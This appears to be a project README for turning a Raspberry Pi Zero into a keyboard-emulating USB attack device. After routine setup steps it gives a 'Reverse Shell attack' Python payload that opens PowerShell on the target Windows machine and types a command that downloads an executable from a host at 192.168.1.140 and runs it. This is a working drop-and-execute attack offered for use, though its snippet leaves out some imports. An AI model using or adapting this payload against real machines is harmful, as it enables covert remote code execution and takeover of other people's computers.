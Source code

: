 # Requirements

- Raspberry Pi Zero
- Micro usb to usb A adapter
- (optional) [Micro usb to usb A dongle](https://52pi.com/collections/raspberry-pi-zero/products/52pi-usb-dongle-for-raspberry-pi-zero-zero-w)

# Setup

- Install [Raspberry Pi Imager](https://www.raspberrypi.com/software/)
- Flash the OS into a SD card using Raspberry Pi Imager
- Insert the SD card into the PI
- Get the Pi's ip by accessing the routers domain and ssh into the device 
- Install apt dependencies
```
sudo apt-get update
sudo apt-get install -y git vim python3-pip python3-venv
```
- init rc-local file
```
sudo bash -c 'echo "#!/bin/bash" > /etc/rc.local'
sudo bash -c 'echo "exit 0" >> /etc/rc.local'   
sudo chmod +x /etc/rc.local
sudo systemctl daemon-reload
sudo systemctl enable rc-local
sudo systemctl start rc-local
```
- setup usb gadget module
```
git clone https://github.com/thewh1teagle/zero-hid
cd zero-hid/usb_gadget
sudo ./installer
```
- add sudo to the file line added by the script
- Create virtual environment and install module
```
python3 -m venv ~/venv
source ~/venv/bin/activate
pip3 install zero-hid
sudo reboot
```
# Reverse Shell attack

```python
from zero_hid import Keyboard


with Keyboard() as k:
    k.press([KeyCodes.MOD_LEFT_GUI], KeyCodes.KEY_R)
    sleep(2)
    k.type("powershell")
    k.press([], KeyCodes.KEY_ENTER)
    sleep(2)
    k.type("Invoke-WebRequest -Uri http://192.168.1.140:3232/4ac5d816227cbfba9580a510af5272e2 -OutFile test.exe; Start-Process .\\test.exe")
```

